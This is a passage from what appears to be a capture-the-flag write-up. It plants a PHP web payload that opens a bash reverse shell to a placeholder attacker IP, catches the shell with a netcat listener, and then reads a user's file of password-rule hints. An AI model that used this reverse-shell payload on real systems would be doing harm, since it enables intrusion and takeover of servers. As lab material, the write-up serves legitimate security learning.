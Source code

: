 ```
"<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacking IP>/9999 0>&1'"); ?>"
```

![810fbe5d2f40020ac9eff1ca82ff8eb2.png](./_resources/810fbe5d2f40020ac9eff1ca82ff8eb2.png)

Set up a netcat listener with `nc -lvnp 9999`. Clicking on the "Log" button will attempt to pull up the log, but the web page will hang. If we check our listener, we will see that we've caught a reverse shell!

![cef2206f2070fa5420cbc597fbb09eaf.png](./_resources/cef2206f2070fa5420cbc597fbb09eaf.png)

Let's look around. There are some potentially interesting files in Adrian's home directory.

![bf0a8d6ccaaf83063e121127e1df1ebc.png](./_resources/bf0a8d6ccaaf83063e121127e1df1ebc.png)

We can read the `.reminder` file:

```txt
Rules:
best of 64
+ exclamation

ettubrute
```
